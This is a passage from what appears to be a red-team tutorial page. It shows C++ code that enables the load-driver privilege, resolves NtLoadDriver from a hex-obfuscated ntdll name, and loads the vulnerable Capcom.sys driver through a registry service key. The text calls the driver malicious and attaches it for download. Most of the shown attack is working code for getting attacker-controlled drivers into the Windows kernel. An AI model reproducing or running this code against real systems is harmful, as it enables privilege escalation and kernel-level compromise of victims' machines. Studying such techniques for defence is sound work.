 ```cpp
	{
		printf("AdjustTokenPrivileges error: %x", GetLastError());
		return FALSE;
	}

	//system("cmd");
	// below code for loading drivers is taken from https://github.com/killswitch-GUI/HotLoad-Driver/blob/master/NtLoadDriver/RDI/dll/NtLoadDriver.h
	std::cout << "[+] Set Registry Keys" << std::endl;
	NTSTATUS st1;
	UNICODE_STRING pPath;
	UNICODE_STRING pPathReg;
	PCWSTR pPathSource = L"C:\\experiments\\privileges\\Capcom.sys";
	PCWSTR pPathSourceReg = L"\\registry\\machine\\System\\CurrentControlSet\\Services\\SomeService";
	const char NTDLL[] = { 0x6e, 0x74, 0x64, 0x6c, 0x6c, 0x2e, 0x64, 0x6c, 0x6c, 0x00 };
	HMODULE hObsolete = GetModuleHandleA(NTDLL);
	*(FARPROC *)&RtlInitUnicodeString = GetProcAddress(hObsolete, "RtlInitUnicodeString");
	*(FARPROC *)&NtLoadDriver = GetProcAddress(hObsolete, "NtLoadDriver");
	*(FARPROC *)&NtUnloadDriver = GetProcAddress(hObsolete, "NtUnloadDriver");

	RtlInitUnicodeString(&pPath, pPathSource);
	RtlInitUnicodeString(&pPathReg, pPathSourceReg);
	st1 = NtLoadDriver(&pPathReg);
	std::cout << "[+] value of st1: " << st1 << "\n";
	if (st1 == ERROR_SUCCESS) {
		std::cout << "[+] Driver Loaded as Kernel..\n";
		std::cout << "[+] Press [ENTER] to unload driver\n";
	}

	getchar();
	st1 = NtUnloadDriver(&pPathReg);
	if (st1 == ERROR_SUCCESS) {
		std::cout << "[+] Driver unloaded from Kernel..\n";
		std::cout << "[+] Press [ENTER] to exit\n";
		getchar();
	}

    return 0;
}
```
{% endcode %}

Once the above code is compiled and executed, we can see that our malicious `Capcom.sys` driver gets loaded onto the victim system:

![](<../../.gitbook/assets/Screenshot from 2018-12-17 22-14-26.png>)

{% file src="../../.gitbook/assets/capcom.sys" %}
Capcom.sys
{% endfile %}

